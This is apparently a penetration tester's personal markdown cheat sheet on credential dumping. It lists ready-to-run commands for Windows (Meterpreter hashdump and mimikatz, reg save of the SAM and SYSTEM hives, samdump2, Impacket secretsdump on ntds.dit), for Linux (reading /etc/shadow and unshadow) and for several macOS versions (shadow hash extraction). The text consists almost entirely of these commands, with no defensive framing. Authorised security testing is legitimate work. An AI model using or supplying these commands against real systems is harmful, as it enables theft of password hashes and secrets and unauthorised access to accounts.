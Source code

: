 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#credential-dumping 
# Windows: 

## Meterpreter HashDump

- run post/windows/gather/hashdump

## Meterpreter Mimikatz (Post Exploitation must be executed from SYSTEM privileges)

- load mimikatz
- creds_all

DUMP LSA SECRETS
- lsadump.py sys_backup.hiv sec_backup.hiv

DUMP LOCAL PASSWORD HASHES

- pwdump.py sys_backup.hiv sec_backup.hiv

## reg.exe 

- reg save HKLM\sam sam
- reg save HKLM\system system

## samdump2

- samdump2 SYSTEM SAM > hashes.db

## Impacket Tools: 

- secretsdump.py -ntds ~/Extract/ntds.dit -system ~/Extract/SYSTEM -hashes lmhash:nthash LOCAL -outputfile ntlm-hashes

If you have the NTDS.dit file and the SYSTEM hive: 

- secretsdump.py -ntds /root/ntds_cracking/ntds.dit -system /root/ntds_cracking/systemhive LOCAL

# Linux

Requires Root Privileges

- cat /etc/shadow

- cp /etc/passwd and shadow
- unshadow passwd shadow 

#  OSX

10.5-10.7

- dscl localhost -read /Search/Users/<username>|grep GeneratedUID|cut -c15-cat
/var/db/shadow/hash/<GUID> | cut -c169-216 > osx_hash.txt

10.8-10.12

- sudo defaults read /var/db/dslocal/nodes/Default/users/<username>.plist ShadowHashData|tr -dc ‘
0-9a-f’|xxd -p -r|plutil -convert xml1 - -o -

# Other Resources: 

- Lsassy: https://github.com/Hackndo/lsassy


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
